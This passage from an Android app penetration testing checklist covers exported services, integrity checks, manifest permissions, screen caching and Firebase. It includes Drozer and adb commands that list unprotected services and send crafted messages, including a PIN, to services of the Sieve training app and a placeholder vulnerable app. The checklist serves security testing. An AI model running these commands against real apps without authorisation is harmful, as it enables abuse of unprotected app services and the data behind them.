 * [ ] Check for existence of services without prober permissions
* [ ] Use Drozer or activity manager  to list and exploit the flow of exported service

```bash
## Using Drozer
# Check services and it's permissions 
dz> run app.service.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.AuthService
    Permission: null
  com.mwr.example.sieve.CryptoService
    Permission: null
# exploit services with drozer
run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 2354 9234 1 --extra string com.mwr.example.sieve.PIN 1337 --bundle-as-obj
--------------------------------
## Using activity manager
# List Running Services
adb shell dumpsys activity services | grep com.vulnapp
# Start a Service Manually
adb shell am startservice -n com.vulnapp/.SensitiveService
# Send Data to a Service
adb shell am startservice -n com.vulnapp/.DataSyncService --es "sync" "malicious_data"
```



**17. Missing Integrity Checks**&#x20;

> Integrity checks in Android refer to the process of verifying the authenticity or integrity of an app's source code, to ensure that it has not been tampered with or modified by an unauthorized party. This can help protect against attacks that aim to inject malicious code or modify the app's functionality, such as man-in-the-middle attacks or repackaging attacks.

* [ ] Decompile, modify, recompile, and check if the app still functions.

**18. Insecure Android Permissions**&#x20;

> Android applications have a number of permissions that can be set in the "AndroidManifest.xml" file. If these permissions are not properly filtered or validated, they can be exploited.

* [ ] Check if clear text traffic is enabled in `AndroidManifest.xml`.
* [ ] Check if debug mode is enabled.
* [ ] Check if `dataExtractionRules` are defined.
* [ ] Check if backup mode is enabled.
* [ ] Check for unnecessary permissions.

**19. Background Screen Caching**&#x20;

> Screen caching is a mobile vulnerability, caused due to a performance/usability feature present in mobile OS’s.

* [ ] Check if screenshots are taken when the app is sent to the background.

**20. Insecure Firebase Database**&#x20;

> Firebase Database is a cloud-based real-time database service that allows developers to store and sync data across multiple devices and platforms.

